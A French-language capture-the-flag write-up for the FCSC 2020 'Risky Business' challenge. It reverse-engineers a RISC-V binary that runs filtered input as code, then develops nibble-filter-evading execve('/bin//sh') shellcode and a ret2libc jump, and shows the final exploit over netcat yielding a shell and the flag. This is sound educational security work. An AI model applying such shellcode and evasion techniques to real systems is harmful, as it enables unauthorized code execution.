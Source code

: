 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Risky Business"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge est composé d'un simple binaire ELF RISC-V.
```
$ file risky-business
risky-business: ELF 64-bit LSB shared object, UCB RISC-V, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-riscv64-lp64d.so.1, for GNU/Linux 4.15.0, BuildID[sha1]=..., not stripped
```
Le but est d'exploiter ce binaire de manière à obtenir un shell sur la machine l'exécutant. On peut interagir avec lui via une simple connexion TCP que l'on peut établir avec `netcat`.
```
nc challenges1.france-cybersecurity-challenge.fr 4004
```
À première vue le binaire semble accepter des données via l'entrée standard avant de s'arrêter.

# II - Rétro-ingénierie

Pour effectuer la rétro-ingénierie de ce binaire, j'ai utilisé *Ghidra*. Sa dernière version (v9.1.2) ne supporte pas l'architecture RISC-V, j'ai donc dû compiler une version plus récente depuis les sources disponibles sur la branche `master` du GitHub.

La décompilation faite par Ghidra est plutôt précise, après avoir renommé les variables correctement nous obtenons la fonction `main()` suivante :
```c
unsigned char main(){
  int input_buffer_len;
  unsigned char ret;
  byte c_2;
  int i;
  int j;
  int k;
  char input_buffer[72];
  long stk_check;
  byte c_1;

  stk_check = __stack_chk_guard;
  fgets(input_buffer,67,stdin);
  input_buffer_len = strlen(input_buffer);
  i = input_buffer_len + -1;
  j = input_buffer_len + -2;
  k = (input_buffer_len + -1) * 2;
  c_1 = (byte)input_buffer[input_buffer_len + -1] >> 4;
  while (-1 < k) {
    if ((k & 1) == 0) {
      c_2 = input_buffer[i] & 0xf;
      i = i + -1;
    }
    else {
      c_2 = (byte)input_buffer[j] >> 4;
      j = j + -1;
    }
    if ((((c_1 == 7) && (c_2 == 3)) || ((c_1 == 0 && (c_2 == 0)))) || ((c_1 == 0 && (c_2 == 10))))
    goto end;
    k = k - 1;
    c_1 = c_2;
  }
  (*(code *)input_buffer)(input_buffer);
end:
  ret = 0;
  if (stk_check != __stack_chk_guard) {
    ret = __stack_chk_fail();
  }
  gp = &__global_pointer$;
  return ret;
}
```

La fonction va donc lire une chaîne de caractères qui peut faire jusqu'à 67 octets sur l'entrée standard, un test va être effectué sur celle-ci, si elle passe le test, elle est interprétée comme du code et est exécutée, sinon le programme se termine.

Le test va lire la chaîne à partir de la fin, la séparer en section de 4 bits et vérifier que certains groupes prédéfinis de 4 bits ne se suivent pas.

On peut interpréter cela plus simplement : dans une représentation hexadécimale de la chaîne, les chiffres hexadécimaux suivants ne peuvent pas se suivre : 0x7 et 0x3; 0x0 et 0x0; 0x0 et 0xA.

# III - Écriture de la base du shellcode

Cet article de blog décrit comment écrire un shellcode pour l'architecture RISC-V : [https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html). Le but est donc de charger les arguments d'un syscall dans les registres `a0` à `a6` et le numéro du syscall dans le registre `a7` avant d'utiliser l'instruction `ecall` pour l'effectuer. Le syscall à appeler est le traditionnel `execve` (syscall n° 221 sous Linux en RISC-V) nous permettant d'obtenir un shell en exécutant `/bin/sh`.

```asm
addi	a0,s0,-96 + 20 # le shellcode est chargé sur la stack à s0-96 : s0-96+20 pointe donc sur le dword plus
                       # bas
slti	a1,zero,-1
slti	a2,zero,-1
li	a7,221
ecall
.dword 0x68732f2f6e69622f # représente la chaîne ascii `/bin//sh`
```

Ce shellcode de base est fonctionnel mais ne respecte pas les contraintes imposées par le binaire. La première suite interdite est la suite 0x00 dans l'instruction `li`. On peut la remplacer par une instruction `addi` en effectuant une addition avec le registre `a1` précédemment initialisé à 0.
```asm
addi	a0,s0,-96 + 20
slti	a1,zero,-1
slti	a2,zero,-1
addi	a7,a1,221
ecall
.dword 0x68732f2f6e69622f
```

La suite interdite suivante est présente dans la chaîne `/bin//sh`. Pour y remédier, on sépare le `dword` en deux `word` et l'on `NOT` celui comportant la suite interdite. Il faut juste adapter le shellcode pour *"réparer"* le `word` avant d'effectuer le syscall.
```asm
addi a3, s0, -96 + 28
lw   a4, 4(a3)
not  a4, a4
sw   a4, 4(a3)
addi a0, s0, -96 + 28
slti a1, zero, -1
slti a2, zero, -1
ecall
.word 0x6e69622f
.word 0x978cd0d0
```
Il est à noter que le shellcode est assemblé avec l'option `-march riscv64ic` permettant d'ajouter l'extension `C` du standard RISC-V. Celle-ci permet d'avoir des instructions compressées de 2 octets au lieu de 4. Les instructions `lw` et `sw` du shellcode précédent ne font donc que 2 octets. Cette compression permet, en plus d'économiser de l'espace, de ne pas avoir d'octets nuls dans le shellcode.

L'instruction m'ayant posé le plus de problème est `ecall`. Celle-ci est indispensable pour pouvoir effectuer le syscall mais n'existe que sous une seule forme : `0x00000073`, elle contient donc 2 suites de demi octets interdites, 0x00 et 0x73. J'ai d'abord voulu essayer de mettre en place du *self-modifying code* en `NOT`ant l'instruction et en la réparant avant de l'exécuter. Cependant l'émulateur RISC-V de QEMU n'est pas encore au point et comme celui-ci *"traduit"* les instructions RISC-V en instructions x86, la traduction n'est pas re-effectuée après que l'instruction soit restaurée, provoquant un crash du programme.

---

**EDIT : 2024-10-14** : QEMU se comportait "normalement" en 2020, il faut utiliser l'instruction `FENCE.I` pour s'assurer que l'écriture de la nouvelle instruction se fait avant sa lecture.

---

# IV - `ret2libc` pour effectuer le syscall

La solution que j'ai choisie pour effectuer le syscall est donc un `ret2libc`. Le but est de trouver une instruction `ecall` dans la libc et de `jmp` dessus. Comme le `Dockerfile` pour déployer le challenge est fourni, nous pouvons utiliser exactement la même libc que celle du serveur où s'exécutera le shellcode final.

Bien que l'ASLR soit activée, QEMU ne semble pas en avoir une très bonne (ou pas du tout), en effet après de multiples tests il semble que l'adresse de base de la libc soit toujours la même : `0x4000827000`. Pour trouver cette adresse de base, il suffit de déboguer le programme avec `gdb` et de lire l'adresse de `scanf` puis de la soustraire avec son adresse dans `libc.so`. Nous n'avons qu'à `grep`er la sortie de `objdump -D` sur la libc pour trouver un `ecall`.

Le `ecall` choisi est à l'adresse `0xb68` de la libc et peut donc être trouvé à l'adresse `0x4000827b68` dans l'espace d'adresse de notre binaire. Comme l'adresse contient beaucoup de suites de demi octets interdites, celle-ci est `NOT`ée avant d'être utilisée.

Voici donc le shellcode final :
```asm
addi a3, s0, -96+0x30
lw   a4, 12(a3)
not  a4, a4
sw   a4, 12(a3)
addi a0, s0, -96+0x38
slti a1, zero, -1
slti a2, zero, -1
addi a7, a1, 221
lw   a4, 0(a3)
lw   a5, 4(a3)
not  a4, a4
not  a5, a5
slli a5, a5, 32
or   a4, a5, a4
jr   -4(a4)
.word 0xff7d8493
.word 0xffffffbf
.word 0x6e69622f
.word 0x978cd0d0
```

Comme l'instruction `jr` nécessite un offset par rapport à l'adresse contenue dans le registre, celui-ci ne pouvait donc pas être 0 sous peine de comporter beaucoup de suites de demi octets interdites. Le saut se fait donc avec un offset de -4 et l'adresse a été adaptée en conséquence.

# V - Exploitation finale

Après avoir assemblé le shellcode et l'avoir testé en local, nous pouvons l'exécuter sur le serveur.
```sh
$ cat shellcode.bin - | nc -v challenges1.france-cybersecurity-challenge.fr 4004
Warning: inverse host lookup failed for 51.68.117.85: Unknown host
challenges1.france-cybersecurity-challenge.fr [51.68.117.85] 4004 (?) open
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag
risky-business
run.sh
cat flag
FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}
```
